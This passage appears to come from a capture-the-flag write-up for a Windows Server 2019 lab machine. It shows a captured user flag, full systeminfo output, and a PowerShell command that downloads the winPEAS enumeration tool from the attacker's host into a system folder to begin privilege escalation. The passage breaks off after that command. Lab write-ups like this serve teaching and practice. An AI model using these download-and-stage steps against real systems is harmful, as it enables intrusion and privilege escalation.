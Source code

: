{% highlight powershell %}
PS C:\Users\Public> type user.txt
af34ddf7875def2cff889b7710163693
{% endhighlight %}

___

## Privesc

{% highlight powershell %}
PS C:\windows\system32\inetsrv>systeminfo

Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA801
Original Install Date:     2/19/2020, 4:03:29 PM
System Boot Time:          8/15/2021, 11:39:54 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              4 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [03]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [04]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,790 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,603 MB
Virtual Memory: In Use:    1,196 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB4534119
                           [02]: KB4462930
                           [03]: KB4516115
                           [04]: KB4523204
                           [05]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.180
                                 [02]: fe80::8959:5ee9:7065:8f1c
                                 [03]: dead:beef::8959:5ee9:7065:8f1c
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
PS C:\windows\system32\inetsrv> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/winPEASx64.exe', 'c:\Windows\System32\spool\drivers\color\winPEASx64.exe')
